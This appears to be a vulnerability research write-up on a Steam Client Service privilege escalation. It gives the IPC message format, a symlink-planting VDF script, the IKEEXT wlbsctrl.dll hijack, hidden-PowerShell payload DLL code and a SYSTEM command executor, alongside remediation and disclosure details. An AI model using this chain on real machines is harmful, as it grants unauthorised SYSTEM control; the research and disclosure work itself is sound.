

## Introduction

Steam, Valve's ubiquitous game distribution platform, sits on over a hundred million Windows machines. Under the hood, it runs a Windows service -- `Steam Client Service` -- as `NT AUTHORITY\SYSTEM`, the highest privilege level on a Windows box. This service handles game installations, updates, and system-level operations that a normal user process can't do.

I found that any local user can talk to this service and convince it to create arbitrary symbolic links anywhere on the filesystem. Because the service runs as SYSTEM, it has the `SE_CREATE_SYMBOLIC_LINK_NAME` privilege that normal users lack, letting it create symlinks in protected directories like `C:\Windows\System32`. Chaining this with a phantom DLL hijack gives you full code execution as `NT AUTHORITY\SYSTEM` from an unprivileged user account -- a classic local privilege escalation.

**No administrator privileges are required at any step.** The symlink is created by the SYSTEM service, and the DLL load is triggered by a reboot -- which standard users can initiate.

This post walks through the full research process: reverse engineering the IPC protocol, finding the vulnerability, understanding why the "Run Process" handler is protected but the symlink handler isn't, working around WoW64 file system redirection, and building a reliable exploit chain that works from a standard user account.

## The Target: SteamClientService

When Steam installs on Windows, it registers `Steam Client Service` (`SteamClientService.exe`) to run as SYSTEM. This service loads `SteamService.dll`, which does the actual work: processing install scripts, managing game files, handling updates. Games ship with VDF (Valve Data Format) install scripts that tell the service what to do -- create registry keys, run installers, set up symlinks.

The service communicates with the Steam client through an IPC mechanism built on shared memory. Any process that can open three global kernel objects gets a bidirectional pipe to the service:

```
Global\SteamClientService_SharedMemFile     (file mapping)
Global\SteamClientService_SharedMemLock     (event)
Global\SteamClientService_SharedMemConnect  (event)
```

These objects have permissive DACLs. There's no authentication, no integrity level check, and no session isolation. If you can log in to the machine, you can talk to the service.

## Reverse Engineering the IPC Protocol

I loaded `SteamService.dll` into Ghidra to understand the IPC protocol. The shared memory region is small -- about 32 bytes -- and acts as a rendezvous for a pipe-based protocol:

```
Offset  Purpose
+0x04   Lock state (0=free, 1=client ready, 2=server accepted, 3=connected)
+0x08   Server PID
+0x0c   Client PID
+0x10   Pipe read handle (duplicated into client)
+0x14   Pipe write handle (duplicated into client)
+0x18   Client event handle
+0x1c   Server event handle
```

The handshake:

1. Client writes its PID to `+0x0c`, clears the pipe handle slots, sets state to `1`
2. Service sees state `1`, calls `OpenProcess` on the client PID, creates pipes, uses `DuplicateHandle` to copy them into the client's process, sets state to `2`
3. Client reads the duplicated handles from shared memory, sets state to `3`

Now both sides have a bidirectional pipe. Messages go through it in a simple format: a 4-byte length prefix followed by the body.

## The Message Format

The `RunInstallScript` message (type `0x42`) tells the service to process a VDF install script file. I traced the dispatch chain through two layers:

```
FUN_1004ba10 -- First layer: reads byte 0 as IPC command (switch on byte-1)
  +-- FUN_10058870 -- Second layer: reads byte 1 as interface type (case 1)
       +-- FUN_10053400 -- Interface dispatch: reads u32 as msg_type
            +-- case 0x42: RunInstallScript
```

The wire format for `0x42`:

```python
body  = struct.pack('<B', 1)        # IPC command
body += struct.pack('<B', 1)        # Interface type
body += struct.pack('<I', 0)        # hSteamUser (unused)
body += struct.pack('<I', 0x42)     # msg_type = RunInstallScript
body += length_prefixed_string(vdf_path)
body += struct.pack('<I', 0)        # appid = 0
body += struct.pack('<B', 0)        # flag
body += struct.pack('<I', 0x42 + 0x103ec1)  # fencepost
msg = struct.pack('<I', len(body)) + body
```

The fencepost is a simple integrity check: `msg_type + 0x103ec1`. If it doesn't match, the message is rejected.

## The VDF Install Script Processor

When the service receives a `RunInstallScript` message, it queues the work to a background thread (`CInstallScriptThread`). The thread calls `FUN_10059fb0`, which:

1. Reads the VDF file into a `CUtlBuffer` (Valve's internal buffer class)
2. Sets the current directory to the VDF file's directory
3. Sets `INSTALLDIR` environment variable
4. Stores the `appid` in a global context structure at `0x103730b4`
5. Calls the recursive-descent VDF parser (`FUN_100595f0`)

The parser uses a callback vtable to handle different VDF constructs:

```
vtable[1] = section_begin (FUN_10058a90)
vtable[2] = section_end   (FUN_10059a00)
vtable[3] = key_value      (FUN_10059ac0)
```

The section begin handler recognizes several section types by name:

```c
if (name == "Run Process")  -> set flag 0x5e
if (name == "symlink")      -> set flag 0x5d
if (name == "Environment")  -> set flag 0x5f
```

## The Asymmetry: Run Process vs. Symlink

Here's where it gets interesting. When the parser exits a section, the section end handler (`FUN_10059a00`) dispatches based on the active flag:

```c
if (flag_0x5e) {  // "Run Process"
    FUN_10059960();  // 1432 bytes -- whitelist check + CreateProcessW
}
else if (flag_0x5d) {  // "symlink"
    FUN_10064820();  // 333 bytes -- just CreateSymbolicLinkW
}
```

The Run Process handler (`FUN_10059960`) contains a **robust whitelist check**:

```c
if (*(char *)(context + 0x1c) != '\0') {
    // Walk linked list of whitelisted executables
    // Compare requested executable against each entry
    // If no match: log "Executable not white-listed: %s"
    // Return without executing
}
```

I confirmed this works. When I sent a VDF with `"Process" "C:\Windows\System32\cmd.exe"`, the service logged:

```
11/21/26 01:19:41 [AppID 0] Executable not white-listed: C:\Windows\System32\cmd.exe GLE 0
```

The symlink handler? Here's the entire security-relevant portion:

```c
void FUN_10064820(char *from, char *to, int type) {
    // ... wide string conversion ...
    CreateSymbolicLinkW(from_wide, to_wide, type & 0xff);
}
```

No whitelist. No path check. No ACL verification. No logging. It just calls `CreateSymbolicLinkW` with whatever you give it.

This asymmetry is the vulnerability. Someone reviewed the process execution path and added a whitelist. Nobody applied the same scrutiny to the symlink handler.

## The WoW64 Curveball

My first attempt to create a symlink in `System32` didn't work as expected. The symlink appeared in `C:\Windows\SysWOW64` instead.

The reason: `SteamService.exe` is a **32-bit process** running under WoW64 on a 64-bit Windows installation. The WoW64 file system redirector transparently maps `C:\Windows\System32` to `C:\Windows\SysWOW64` for 32-bit processes. So when the service calls `CreateSymbolicLinkW(L"C:\\Windows\\System32\\wlbsctrl.dll", ...)`, Windows silently redirects it to `SysWOW64`.

The fix is to use `C:\Windows\Sysnative` as the path prefix. The `Sysnative` virtual directory is a WoW64 feature that lets 32-bit processes explicitly access the real 64-bit `System32`. It only exists from the perspective of 32-bit processes -- you won't see it in Explorer. But pass it through `CreateSymbolicLinkW` from a 32-bit process, and the symlink lands in the real `System32`.

```
"from"  "C:\\Windows\\Sysnative\\wlbsctrl.dll"
```

## Building the Exploit Chain

An arbitrary symlink creation primitive is powerful, but it needs a second step to reach code execution. I went with a phantom DLL hijack -- finding a Windows service that tries to load a DLL that doesn't exist on a default installation.

### Finding Phantom DLLs

A phantom DLL is a DLL that a Windows service tries to load via `LoadLibrary`, but the file doesn't exist on a default installation. The load fails silently and the service continues running. But if you can place a DLL at that path, the service loads your code instead -- at whatever privilege level the service runs as.

The `wlbsctrl.dll` / IKEEXT combination is well-documented in the Windows privilege escalation community -- it appears in most privesc checklists (see [HackTricks: DLL Hijacking](https://hacktricks.wiki/windows-hardening/windows-local-privilege-escalation/dll-hijacking/)) and has been written about by multiple researchers over the years. I didn't discover it through original research; I used a known technique as the second stage of a new primitive.

If you wanted to find phantom DLLs yourself, the tool is Process Monitor (ProcMon). Set up three filters:

```
Operation    is         CreateFile       → Include
Result       is         NAME NOT FOUND   → Include
Path         ends with  .dll             → Include
```

One catch: most phantom DLL loads happen **at boot**, before ProcMon is running. You won't see them in a normal ProcMon session. To catch them, either enable boot logging (Options -> Enable Boot Logging, then reboot) or restart the target service while ProcMon is running.

For each hit, check what service lives inside that svchost and whether it's useful:

```powershell
sc qc IKEEXT       # START_TYPE: AUTO_START
sc query IKEEXT    # STATE: RUNNING
```

The ideal phantom DLL target hits four criteria:

| Criteria | Why it matters |
|----------|---------------|
| **Auto-start** | Loads on every boot without user action |
| **Running by default** | Present on stock Windows, no special config |
| **No existing DLL** | File genuinely doesn't exist, not a load-order issue |
| **SYSTEM context** | Service runs as LocalSystem, not LocalService |

I checked several known phantom DLLs on the target machine:

```powershell
# All missing from System32:
wlbsctrl.dll      # IKEEXT service  - Auto-start, running, SYSTEM ✓✓✓✓
WptsExtensions.dll # WptsService     - depends on config
phoneinfo.dll      # varies
SprintCSP.dll      # varies
Ualapi.dll         # UalSvc          - Auto-start (delayed), SYSTEM
```

`wlbsctrl.dll` is the classic choice and ticks all four boxes. The IKEEXT (IKE and AuthIP IPsec Keying Modules) service is set to Auto-start and is running by default on every Windows 10/11 installation. When it starts, it tries to load `wlbsctrl.dll` from `System32`. The load fails, the service shrugs and continues. But if we put a symlink at that path pointing to our payload DLL, the service follows the symlink and loads our code as SYSTEM.

Normally, exploiting a phantom DLL requires you to write a file into `System32` -- which requires admin. That's why phantom DLL hijacks are usually a persistence technique, not a privilege escalation. But with Steam's symlink primitive, we can create a symlink in `System32` as an unprivileged user. That's what turns a known technique into a real LPE chain: the Steam vulnerability provides the missing first step.

### The Payload: Four Attempts to Get a Shell

This is where things got messy. Creating the symlink was the easy part. Getting a usable SYSTEM shell took four iterations, each one failing in a way that taught me something about Windows service internals.

#### Attempt 1: CreateProcessAsUserW -- Invisible Process

My first payload DLL tried the obvious approach: duplicate the SYSTEM token, set the session ID to the interactive desktop (session 1), and call `CreateProcessAsUserW` to spawn `cmd.exe` on the user's desktop.

```c
// Duplicate our SYSTEM token
OpenProcessToken(GetCurrentProcess(), TOKEN_ALL_ACCESS, &hToken);
DuplicateTokenEx(hToken, ..., &hNewToken);
// Set to interactive session
SetTokenInformation(hNewToken, TokenSessionId, &sessionId, ...);
// Spawn cmd.exe on user's desktop
CreateProcessAsUserW(hNewToken, L"cmd.exe", ..., "WinSta0\\Default", ...);
```

Result: nothing appeared. No `cmd.exe` on the desktop. I checked Task Manager -- the processes I saw were from my SSH session, not from the DLL. Session 0 isolation was the problem: services run in session 0, and even with token manipulation, spawning a visible process on the interactive desktop from session 0 is non-trivial. It needs `SeTcbPrivilege`, the right window station, and even then many configurations block it.

#### Attempt 2: Enable Privileges First

I added code to explicitly enable `SeTcbPrivilege`, `SeAssignPrimaryTokenPrivilege`, and `SeIncreaseQuotaPrivilege` before the `CreateProcessAsUserW` call. These are the privileges the MSDN documentation says you need.

Result: still nothing on the desktop, but for a different reason. I checked the IKEEXT service status and it had **stopped**. The svchost.exe process hosting IKEEXT crashed immediately after loading our DLL. Because we don't export the real `wlbsctrl.dll` functions that IKEEXT expects, the service calls into our DLL, gets garbage or NULL, and crashes. The process died before our `CreateProcessAsUserW` even ran.

Lesson: when you hijack a DLL, you're a guest in someone else's process. If the host process crashes, everything you're doing inside it dies too.

#### Attempt 3: Named Pipe in a Background Thread

To beat the svchost crash, I tried creating a background thread from `DllMain` that would set up a named pipe server. The idea was that the thread would start running independently of the main thread, create the pipe before svchost crashed, and my Python script would connect to the pipe for an interactive shell.

```c
DWORD WINAPI ShellThread(LPVOID p) {
    HANDLE hPipe = CreateNamedPipeW(L"\\\\.\\pipe\\steam_poc_cmd", ...);
    ConnectNamedPipe(hPipe, NULL);  // Wait for client
    // ... shell loop ...
}

BOOL WINAPI DllEntry(...) {
    if (r == DLL_PROCESS_ATTACH) {
        CreateThread(NULL, 0, ShellThread, NULL, 0, NULL);
    }
}
```

Result: `ConnectNamedPipe` never ran. The thread was created but svchost crashed before the thread got scheduled and reached `CreateNamedPipeW`. Threads created from `DllMain` during `DLL_PROCESS_ATTACH` are notoriously unreliable -- the loader lock is held, and the OS makes no guarantees about when the new thread actually starts executing. In this case, the main thread continued, IKEEXT called into our missing exports, and svchost crashed before our thread had a chance.

Lesson: you can't rely on threads surviving a host process crash. The thread and the process share a fate.

#### Attempt 4: Detached Process with File-Based IPC (Working)

The solution was to get out of svchost entirely. Instead of trying to run code inside the crashing process, the DLL writes a PowerShell script to disk and spawns it as a **detached process** with `CREATE_NEW_PROCESS_GROUP | CREATE_NO_WINDOW`. A detached process has its own process group and is not a child of the spawning process -- when svchost crashes, the PowerShell process keeps running.

The PowerShell script implements a simple command executor using file-based IPC:

```powershell
while($true){
  if(Test-Path $cmd_file){
    $c = Get-Content $cmd_file -Raw
    Remove-Item $cmd_file -Force
    if($c.Trim() -eq '__EXIT__'){break}
    $o = cmd.exe /c $c 2>&1 | Out-String
    [IO.File]::WriteAllText($out_file, $o)
    [IO.File]::WriteAllText($done_file, '1')
  }
  Start-Sleep -Milliseconds 100
}
```

The Python PoC writes commands to `C:\Users\Public\.steam_cmd`, the PowerShell executor (running as SYSTEM) processes them and writes output to `.steam_out`, and the PoC polls `.steam_done` for completion.

This approach is ugly compared to a named pipe, but it works reliably because:
- `CreateProcessW` with `CREATE_NEW_PROCESS_GROUP` happens synchronously during `DLL_PROCESS_ATTACH` -- the new process is created before svchost crashes
- The PowerShell process is fully independent of svchost
- File-based IPC crosses session boundaries without any of the complications of named pipes or window messages

### The Trigger: No Admin Required

After getting the payload working, I hit one more wall. My first PoC used `Restart-Service IKEEXT -Force` to reload the DLL. I ran it from a non-elevated command prompt and got:

```
Service 'IKE and AuthIP IPsec Keying Modules (IKEEXT)' cannot be stopped
due to the following error: Cannot open IKEEXT service on computer '.'.
```

UAC blocks service control from non-elevated processes, even for admin accounts. This was a problem -- if the PoC requires "Run as Administrator", it's not a real LPE. The whole point is escalating *from* an unprivileged user.

The solution: **reboot**. Standard Windows users have `SeShutdownPrivilege` by default -- they can call `shutdown /r /t 0`. On reboot, IKEEXT auto-starts and loads `wlbsctrl.dll` from `System32`, following our symlink to the payload DLL. The entire chain works from a standard user account with zero elevation.

The final PoC is a two-run design:
1. First run: plants the symlink and reboots (5 second countdown, cancelable)
2. After reboot: auto-detects the proof file and connects to the SYSTEM shell

### The Payload (Final)

The final payload DLL is a minimal no-CRT binary that:

1. Writes `C:\Users\Public\SYSTEM_PROOF.txt` with the executing user name, host process path, and PID
2. Writes the PowerShell command executor script to disk
3. Spawns it as a detached process (`CREATE_NEW_PROCESS_GROUP | CREATE_NO_WINDOW`)

```c
#pragma comment(linker, "/ENTRY:DllEntry")

BOOL WINAPI DllEntry(HINSTANCE h, DWORD r, LPVOID l) {
    if (r == DLL_PROCESS_ATTACH) {
        // Write proof file with SYSTEM identity
        // Write PowerShell executor script
        // Spawn detached: CREATE_NEW_PROCESS_GROUP | CREATE_NO_WINDOW
        CreateProcessW(NULL, L"powershell.exe -nop -ep bypass -w hidden -file ...", ...);
    }
    return TRUE;
}
```

Compiled with `-nostdlib` to avoid CRT dependencies, the DLL comes out to 5120 bytes -- small enough to base64-encode inline in the Python PoC.

### The Full Chain (No Admin Required)

```
[1] Drop payload DLL -> C:\Users\Public\payload.dll  (user-writable, no admin)
[2] Write VDF file   -> C:\Users\Public\exploit.vdf  (user-writable, no admin)
    "symlink" { "from" "C:\Windows\Sysnative\wlbsctrl.dll"
                "to"   "C:\Users\Public\payload.dll" }
[3] IPC connect to SteamClientService via shared memory    (no admin)
[4] Send RunInstallScript (0x42) with VDF path, appid=0   (no admin)
[5] Service (SYSTEM) creates symlink:                      (service runs as SYSTEM)
    C:\Windows\System32\wlbsctrl.dll -> C:\Users\Public\payload.dll
[6] Reboot: shutdown /r /t 0                               (no admin -- SeShutdownPrivilege)
[7] IKEEXT auto-starts -> loads wlbsctrl.dll -> follows symlink -> SYSTEM
[8] Re-run PoC -> interactive SYSTEM shell                 (no admin)
```

Every single step works from a standard, non-elevated user account.

## The Result

Running the PoC end to end: connect, trigger the symlink, reboot, reconnect, and the shell comes back as `NT AUTHORITY\SYSTEM`.



From an unprivileged local user to `NT AUTHORITY\SYSTEM`, in a single script, with zero admin privileges at any step.

## Why This Matters

Steam is not a niche tool. As of late 2026, Valve reports over 130 million monthly active users, with a record-breaking peak of over 40 million concurrent users. Steam is installed on the vast majority of gaming PCs worldwide, and the Steam Client Service runs as `NT AUTHORITY\SYSTEM` on every one of them. It cannot be disabled without breaking game installations and updates. That makes any vulnerability in this service a potential entry point on an enormous number of machines.

This vulnerability sits at an interesting intersection:

**Massive attack surface.** Steam is installed on over a hundred million Windows machines. The vulnerable service runs as SYSTEM by default and can't be disabled without breaking Steam.

**Zero-privilege exploitation.** Unlike many LPE bugs that require the attacker to already have some elevated access, this chain works from a completely standard user account. No "Run as Administrator", no UAC bypass needed, no special group memberships.

**Low barrier to exploitation.** Any local user can exploit this. No admin rights, no user interaction beyond a reboot, no special configuration. The IPC interface is wide open.

**Missing-check class.** This isn't a memory corruption bug or a logic error that's hard to reason about. It's a missing authorization check on a privileged operation. The developers clearly understood the risk for `"Run Process"` -- they built a whitelist. They just didn't apply the same thinking to `"symlink"`.

**Defense asymmetry.** The whitelist on `"Run Process"` is actually robust. I spent significant time trying to bypass it and confirmed it cannot be bypassed -- even with `appid=0`, the internal flag that controls the whitelist (`DAT_10481880 + 0x1288`) is always set to 1, overriding any IPC parameter. Someone did the security work for process execution. The symlink handler was just overlooked.

## Remediation

The simplest fix: apply the same validation pattern to `"symlink"` that already exists for `"Run Process"`. Specifically:

1. **Path validation** -- restrict symlink `"from"` paths to Steam's own directories
2. **Client impersonation** -- call `ImpersonateNamedPipeClient` or equivalent before `CreateSymbolicLinkW`, so the operation runs with the caller's token instead of SYSTEM's
3. **VDF origin check** -- verify VDF files come from Steam's content directories, not arbitrary user-writable locations

The fix is straightforward because the security pattern already exists in the same codebase. It just needs to be applied consistently.

## Timeline

| Date | Event |
|------|-------|
| 2026-11-21 | Vulnerability discovered and confirmed |
| 2026-11-21 | PoC developed and tested (fully unprivileged chain) |
| 2026-11-21 | Reported to Valve via HackerOne |
| 2026-11-23 | Report closed as Duplicate — severity confirmed High (8.8) |


The report was closed as a **duplicate**, meaning Valve had already received a report for this same vulnerability class from another researcher. The severity was confirmed as **High (8.8)**, which aligns with the CVSS assessment: local access, low complexity, no privileges beyond a standard user account, and full impact on confidentiality, integrity and availability.

A duplicate closure does not mean the bug is fixed — it means Valve is already tracking it. The fact that multiple researchers independently found the same vulnerability underscores how discoverable this attack surface is.

## Conclusion

This research reinforces a pattern I see often in privilege escalation research: **inconsistent security boundaries within the same component**. The Steam service developers clearly understood that running arbitrary processes as SYSTEM is dangerous -- they built a whitelist. But creating arbitrary symlinks as SYSTEM is equally dangerous, and that handler got no protection at all.

When auditing privileged services, look for this asymmetry. Find the operations that *do* have security checks, then look for sibling operations that handle different but equally dangerous primitives. The checked path tells you the developers understood the threat model. The unchecked path tells you where they stopped.
